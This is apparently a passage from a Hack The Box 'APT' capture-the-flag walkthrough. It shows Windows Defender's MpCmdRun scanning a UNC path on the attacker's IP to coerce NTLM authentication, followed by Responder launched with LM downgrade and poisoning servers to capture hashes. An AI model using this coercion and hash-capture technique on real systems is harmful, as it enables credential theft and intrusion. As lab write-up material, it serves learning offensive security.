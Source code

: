 ```text

MpEnsureProcessMitigationPolicy: hr = 0x0

Starting RunCommandScan.

INFO: ScheduleJob is not set. Skipping signature update.

Scanning path as file: \\10.10.14.187\test.

Start: MpScan(MP_FEATURE_SUPPORTED, dwOptions=16385, path \\10.10.14.187\test, DisableRemediation = 0, BootSectorScan = 0, Timeout in days = 1)

MpScan() started

Warning: MpScan() encounter errror. hr = 0x80508023

MpScan() was completed

ERROR: MpScan(dwOptions=16385) Completion Failed 80508023

MpCmdRun.exe: hr = 0x80508023.

MpCmdRun: End Time:  Thu  Apr  01  2021 22:29:11

-------------------------------------------------------------------------------------
```

The scan failed

```text
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ sudo responder -I tun0 --lm           
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.2.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
```